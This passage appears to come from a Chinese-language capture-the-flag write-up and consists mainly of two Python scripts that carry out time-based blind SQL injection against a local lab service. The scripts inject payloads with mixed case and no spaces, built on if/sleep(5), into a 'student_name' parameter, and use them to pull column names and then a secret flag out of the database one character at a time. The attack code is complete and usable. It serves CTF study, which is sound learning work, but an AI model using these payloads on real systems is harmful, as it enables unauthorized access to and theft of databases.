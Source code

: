 ```python
        columns=f'(Select(group_concat(column_name))from(infOrmation_schema.columns)where((table_name)like(\'secrets\')))'

        char=f'(ord(mid({columns},{i},1)))'

        b=f'(({char})in({ord(c)}))'

        p=f'Alice\'and(if({b},sleep(5),0))#'
        res=requests.get(url, params={'student_name': p})

        if  res.elapsed.total_seconds()>5:
            print('正确',c)
            result +=c
            print(result)
            break
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732630185840-5d5ad2c2-2d0c-459a-9b47-a99ee964d9c1.png)

爆出flag

```python
import requests,time,string

url= 'http://127.0.0.1:57324/'

result= ''

for i in range(1,100):
    print('尝试次数',i)

    for c in  string.ascii_letters + string.digits + ' ,_-{}':
        time.sleep(0.01)
        print('尝试的字符', c)

        columns=f'(Select(group_concat(secret_value))from(secrets)where((secret_value)like(\'flag%\')))'

        char=f'(ord(mid({columns},{i},1)))'

        b=f'(({char})in({ord(c)}))'

        p=f'Alice\'and(if({b},sleep(5),0))#'
        res=requests.get(url, params={'student_name': p})

        if  res.elapsed.total_seconds()>5:
            print('正确',c)
            result +=c
            print(result)
            break
```
